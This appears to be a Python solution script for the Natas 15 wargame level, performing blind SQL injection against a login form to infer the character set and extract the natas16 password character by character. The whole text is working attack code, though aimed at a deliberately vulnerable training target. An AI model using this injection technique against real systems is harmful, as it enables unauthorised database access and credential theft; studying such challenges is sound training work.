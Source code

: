
def send_query(query):
    payload = {'username': query}
    print("Payload: " + str(payload))
    response = requests.post(target + '/index.php?', data=payload, headers=headers)
    return response


r = requests.get(target, headers=headers)
if r.status_code != requests.codes.ok:
    raise ValueError('Couldn\'t connect to target :(')
else:
    print('Target reachable. Starting character parsing...')

# Get list of characters used so we don't have to iterate unnecessarily
print("Getting list of characters used...")
for c in allChars:
    print("Trying Character: " + c)
    resp = send_query('natas16" and password like "%s%s%s" #' % ("%", c, "%"))
    if 'exists' in str(resp.content):
        usedChars += c
        print("Character found: " + c)
print("Characters used: " + usedChars)

# Retrieve the password one char at a time
for i in range(1, 33):
    print("Testing password...")
    for c in usedChars:
        print("Trying Character: " + c)
        print("Password so far: " + password)
        resp = send_query('natas16" and ascii(substring((select password from users where username="natas16"),%d,1))=%s #' % (i, ord(c)))
        if 'exists' in str(resp.content):
            password += c
            break

print('Password: ' + password)
</pre>